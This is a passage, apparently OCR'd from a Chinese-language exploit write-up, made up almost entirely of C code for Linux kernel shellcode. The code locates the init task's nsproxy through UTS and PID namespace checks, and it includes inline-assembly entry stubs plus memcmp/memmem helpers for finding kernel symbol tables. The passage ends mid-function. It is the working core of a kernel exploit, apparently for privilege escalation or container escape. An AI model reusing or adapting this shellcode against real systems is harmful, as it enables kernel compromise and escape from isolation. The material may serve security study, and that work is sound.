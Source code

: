 ```c
                has_uts_ns = 1;
            }

            if (has_uts_ns && has_pid_ns) {
                *nsproxy_offset = may_nsproxy - init_task;
                return may_nsproxy;
            }
        }
    }

    return 0;
}
```



但上述逻辑如果要完全手动用汇编来写shellcode未免实在太困难，因此这里我直接用C来写shellcode：

```c
typedef unsigned long size_t;

asm(".intel_syntax noprefix; lea rdi, [rip+0x1000]");
asm(".intel_syntax noprefix; jmp main_start");

// copy from musl-libc
static int my_memcmp(const void *vl, const void *vr, size_t n) {
    const unsigned char *l = vl, *r = vr;
    for (; n && *l == *r; n--, l++, r++)
        ;
    return n ? *l - *r : 0;
}

// copy from https://blog.csdn.net/lqy971966/article/details/106127286
static const char *my_memmem(const char *haystack, size_t hlen, const char *needle, size_t nlen) {
    const char *cur;
    const char *last;

    last = haystack + hlen - nlen;
    for (cur = haystack; cur <= last; ++cur) {
        if (!my_memcmp(cur, needle, nlen)) {
            return cur;
        }
    }
    return 0;
}

static void *find_symtab(char *start_pos, size_t find_max, const char *func_name, size_t func_length) {
    while (1) {
        const char *strtab = my_memmem(start_pos, find_max, func_name, func_length);
        if (!strtab) {
            return 0;
        }

        for (char *pos = (char *)(((size_t)start_pos) & ~3); pos < (char *)(((size_t)start_pos) + find_max); pos += 4) {
            if ((pos + *(unsigned int *)pos) == strtab) {
                return pos - 4;
            }
        }

        find_max -= (strtab + func_length) - start_pos;
        start_pos = (strtab + func_length);
    }

```